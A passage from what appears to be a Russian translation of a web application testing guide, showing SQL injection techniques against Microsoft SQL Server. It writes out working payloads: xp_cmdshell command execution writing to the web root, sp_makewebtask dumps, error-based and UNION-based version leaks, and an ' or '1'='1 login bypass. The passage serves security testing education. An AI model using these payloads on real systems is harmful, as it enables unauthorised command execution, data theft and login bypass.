 Давайте теперь посмотрим на примеры конкретных атак на SQL Server, которые применяют вышеупомянутые функции. В большинстве случаев будет использоваться функция `exec`.

Ниже мы покажем, как выполнить команду оболочки, которая записывает вывод команды `dir c:\inetpub` в доступный для просмотра файл, предполагая, что веб-сервер и сервер БД находятся на одном хосте. Вот синтаксис с `xp_cmdshell`:

`exec master.dbo.xp_cmdshell 'dir c:\inetpub > c:\inetpub\wwwroot\test.txt'--`

В качестве альтернативы можно взять `sp_makewebtask`:

`exec sp_makewebtask 'C:\Inetpub\wwwroot\test.txt', 'select * from master.dbo.sysobjects'--`

При успешном выполнении создастся файл, который можно прочитать. Имейте в виду, что `sp_makewebtask` устарела, и, даже если она работает в версиях SQL Server до 2005 года, она может быть удалена в будущем.

Кроме того, очень удобны встроенные функции SQL Server и переменные среды. Ниже функция `db_name()` используется для вызова ошибки, которая выдаёт имя базы данных:

`/controlboard.asp?boardID=2&itemnum=1%20AND%201=CONVERT(int,%20db_name())`

Обратите внимание на использование [convert](https://docs.microsoft.com/ru-ru/sql/t-sql/functions/cast-and-convert-transact-sql):

`CONVERT ( data_type [ ( length ) ] , expression [ , style ] )`

`CONVERT` попытается преобразовать результат `db_name` (строка) в целочисленную переменную, вызывая ошибку, которая, при отображении уязвимым приложением, будет содержать имя базы данных.

В следующем примере используется переменная среды `@@version` в сочетании с инъекцией в стиле `union select`, чтобы найти версию SQL Server.

`/form.asp?prop=33%20union%20select%201,2006-01-06,2007-01-06,1,'stat','name1','name2',2006-01-06,1,@@version%20--`

А вот та же атака, но снова использующая трюк с преобразованием:

`/controlboard.asp?boardID=2&itemnum=1%20AND%201=CONVERT(int,%20@@VERSION)`

Сбор информации полезен для использования уязвимостей приложений на SQL Server, путём эксплуатации атаки SQL-инъекции или прямого доступа к прослушивателю SQL (англ.: listener).

Далее мы покажем несколько примеров уязвимости SQL-инъекций через разные точки входа.

### Пример 1: Тестирование SQL-инъекций в запросе GET

Самый простой (а иногда и самый полезный) случай — это страница входа, запрашивающая имя пользователя и пароль для входа пользователя. Можно попробовать ввести следующую строку "' или '1'='1" (без двойных кавычек):

`https://vulnerable.web.app/login.asp?Username='%20or%20'1'='1&Password='%20or%20'1'='1`

Если приложение использует динамические SQL-запросы, и строка добавляется к запросу проверки учётных данных пользователя, это может привести к успешному входу в приложение.

### Пример 2: Тестирование SQL-инъекций в запросе GET

Для того, чтобы узнать, сколько всего столбцов
